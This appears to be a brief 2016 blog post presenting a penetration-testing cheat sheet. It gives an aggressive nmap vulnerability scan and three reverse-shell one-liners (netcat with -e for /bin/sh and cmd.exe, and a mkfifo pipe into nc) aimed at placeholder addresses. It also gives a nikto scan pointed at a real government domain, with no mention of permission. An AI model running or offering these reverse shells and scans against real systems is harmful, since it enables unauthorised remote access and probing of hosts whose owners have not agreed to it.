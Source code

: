 ```yaml
---
layout: post
title:  "Command Hacking Tools for Efficient Penetration Testing"
date:   2016-12-16 14:31:00 +0700
categories: jekyll update
comments: false
---
```


# 1. Nmap

> nmap -sV -vv -O -T5 --scan=vuln ip/subnet -oX filename.xml

Scan all service and check operating system with aggresive scanning also with mod scanning vulnerability and make the output xml type with filename.xml (later can be open with zenmap)

# 2. Reverse Shell

> nc <IP> <PORT> -e /bin/sh
> nc <IP> <PORT> -e C:\Windows\System32\cmd.exe
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f

# 3. Nikto

> perl nikto.pl -host kkp.go.id;www.wpi.kkp.go.id -output ~/kkp/random -Format htm

scan target with output html